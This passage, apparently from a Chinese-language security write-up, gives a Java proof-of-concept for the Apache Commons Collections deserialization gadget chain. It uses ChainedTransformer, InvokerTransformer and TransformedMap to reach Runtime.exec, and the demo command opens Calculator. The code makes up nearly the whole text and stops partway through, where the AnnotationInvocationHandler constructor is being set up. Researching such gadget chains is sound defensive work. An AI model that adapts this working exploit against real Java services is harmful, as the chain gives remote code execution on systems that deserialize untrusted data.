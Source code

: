 POC 如下：
```java
package com.serialize;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

/**
 * Created by dotast on 2022/9/1 10:34
 */
public class TransformerTest {
    public static void main(String[] args) throws Exception {
        TransformerTest transformerTest = new TransformerTest();
        transformerTest.serialize();
        transformerTest.unserialize();
    }

    /*
    * 客户端
    * */
    public void  serialize() throws Exception{
        String cmd = "open -a Calculator.app";

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                // new Class[0]为占位符
                new InvokerTransformer(
                        "getMethod",new Class[]{String.class, Class[].class},new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",new Class[]{Object.class, Object[].class},new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec", new Class[]{String.class}, new Object[]{cmd}
                )
        };
        // 创建ChainedTransformer调用链
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        // 创建Map对象
        Map<Object, Object> map = new HashMap<>();
        map.put("value","value");
        // 调用TransformedMap创建一个含有恶意调用链的Transformer类的Map对象
        Map transformedMap = TransformedMap.decorate(map, null, chainedTransformer);

        try{
            // 获取AnnotationInvocationHandler类对象
            Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
            // 获取AnnotationInvocationHandler类的构造方法
            Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
            // 设置方法访问权限
```